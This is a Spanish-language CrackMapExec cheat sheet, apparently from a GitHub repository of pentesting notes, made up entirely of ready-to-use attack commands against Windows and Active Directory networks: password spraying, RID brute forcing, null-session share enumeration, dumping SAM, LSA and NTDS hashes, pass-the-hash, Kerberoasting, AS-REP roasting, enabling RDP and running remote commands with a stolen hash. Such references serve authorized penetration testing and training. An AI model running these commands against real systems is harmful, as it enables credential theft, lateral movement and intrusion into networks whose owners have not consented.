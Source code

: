 # CrackMapExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
crackmapexec smb 192.168.1.0/24
```

#### SMB con credenciales a dominio WORKGROUP
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### Password Spraying
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt
```

#### Spraying Attack con usuario y contraseña lineal
```
crackmapexec smb <IP-Address> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

#### Spraying Attack
```
crackmapexec smb <IP-Address> -u users.txt -p '<PASSWORD>' --continue-on-success
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Enumeración de directorios compartidos SMB con NULL session
```
crackmapexec smb <IP-Address> -u 'null' -p ' ' --shares
```

#### Mostrar el contenido de un directorio compartido en SMB con credenciales
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --spider <DIRECTORY-NAME> --regex .
```

#### Descargar un archivo de un directorio compartido
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --share <DIRECTORY-NAME> --get-file <FIEL-NAME> <OUTPUT-NAME>
```

#### Brute Force de usuarios
```
crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```

#### Dumping Hashes SAM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes NTLM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --ntds
```

#### Dumpear Hashes LSA
```
crackmapexec smb <IP-Address> -u 'Administrator' -p '<PASSWORD>' --lsa
```

#### Dumpear Hashes NTD
```
crackmapexec smb <IP-Address> -u 'Administrator' -H '<HASH-NT>' --ntds vss
```

#### PassTheHash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' --local-auth
```

#### LAPS
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --laps
```

#### Fuerza bruta para Autenticación a Kerberos
```
crackmapexec smb <IP-Address> -u users.txt -p '' --kerberos
```

#### Ataque de Kerberoasting
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting <OUTPUT-FILE>
```

#### Ataque de Asreproast
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --asreproast <OUTPUT-FILE>
```

#### Habilitar RDP con usuario y password de Administrador
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -M rdp -o action=enable
```

#### Ejecutar comandos usando el Hash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -x 'COMMAND'
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -X 'COMMAND'
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)